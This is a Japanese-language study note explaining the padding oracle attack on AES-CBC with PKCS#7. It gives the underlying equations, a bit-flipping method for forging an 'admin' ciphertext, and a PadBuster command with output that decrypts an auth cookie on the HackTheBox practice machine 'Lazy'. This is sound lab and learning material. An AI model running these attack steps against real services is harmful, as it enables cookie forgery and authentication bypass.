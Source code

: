 # Crypto
----

## Padding Oracle Attack
* 対象はAES CBC with PKCS#7

* パディングオラクルが存在する時、利用可能
  * 例えば復号された平文は公開されないが、復号時のエラーメッセージが公開されるケース
  * 正常に復元できたか、パディングが正しくないか、パディングは正しいが平文の形式が間違っているか、がエラーメッセージで判別可能
  
* 原理
  * PKCS#7のパディングの形式は、長さの異なる16パターンの形式しか存在しない
    * 0x01, 0x0202, 0x030303,  --- , 0x10101010101010101010101010101010
    
  * AES CBCの復元は次の式にならう
    $$
    m_n = Dec(c_n) \oplus c_{n-1}
    $$
    
  * 仮に次の式が成立するような、c'を求めることができれば、平文mを導出することが可能
    $$
    0x10101010101010101010101010101010 = Dec(c_n) \oplus c'_{n-1}
    $$
  
  * そのためには、次の式が成立するようなc''を求めることができればよい
    $$
    0x??0f0f0f0f0f0f0f0f0f0f0f0f0f0f0f = Dec(c_n) \oplus c''_{n-1} \\
    $$
  
  * なぜならば、パディングオラクルを利用し、不明な1byte（??）を総当りすることで、c'はc''から導出可能であるためである
    $$
    c'_{n-1} = c''_{n-1}　\oplus 0x??0f0f0f0f0f0f0f0f0f0f0f0f0f0f0f \oplus 0x10101010101010101010101010101010
    $$
    
  * 以上を再帰的に繰り返す。最大の試行回数は256 * 16通り
  
* 攻撃手法
  * Burp SuiteのIntruderのBit flipperで脆弱性の有無を検証可能
  * 暗号文の1bitのスワップは平文の1bitのスワップと同等
    * 仮に"admin"の暗号文を取得したい場合、"cdmin"などの"admin"と1bit異なる平文の暗号文を生成し、暗号文の各桁のビットをBit flipした複数の暗号文を生成し、パディングオラクルで前記複数の暗号文から"admin"の暗号文を絞り込めばよい
  
* Htb: Lazy
  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Lazy]
  └──╼ $padbuster http://lazy.htb fqD1YwpYFnOQhgYQcEod2xr5ijnHbZ74 8 -cookies 'auth=fqD1YwpYFnOQhgYQcEod2xr5ijnHbZ74' -encoding 0
  
  +-------------------------------------------+
  | PadBuster - v0.3.3                        |
  | Brian Holyfield - Gotham Digital Science  |
  | labs@gdssecurity.com                      |
  +-------------------------------------------+
  
  INFO: The original request returned the following
  [+] Status: 200
  [+] Location: N/A
  [+] Content Length: 977
  
  INFO: Starting PadBuster Decrypt Mode
  *** Starting Block 1 of 2 ***
  
  INFO: No error string was provided...starting response analysis
  
   *** Response Analysis Complete ***
  
  The following response signatures were returned:
  
  -------------------------------------------------------
  ID#     Freq    Status  Length  Location
  -------------------------------------------------------
  1       1       200     1133    N/A
  2 **    255     200     15      N/A
  -------------------------------------------------------
  
  Enter an ID that matches the error condition
  NOTE: The ID# marked with ** is recommended : 2
  
  Continuing test with selection 2
  
  
  [+] Success: (227/256) [Byte 8]
  [+] Success: (131/256) [Byte 7]
  [+] Success: (215/256) [Byte 6]
  [+] Success: (205/256) [Byte 5]
  [+] Success: (236/256) [Byte 4]
  [+] Success: (106/256) [Byte 3]
  [+] Success: (44/256) [Byte 2]
  [+] Success: (253/256) [Byte 1]
  
  Block 1 Results:
  [+] Cipher Text (HEX): 90860610704a1ddb
  [+] Intermediate Bytes (HEX): 0bd39011372a7f1c
  [+] Plain Text: user=rio
  ```

  


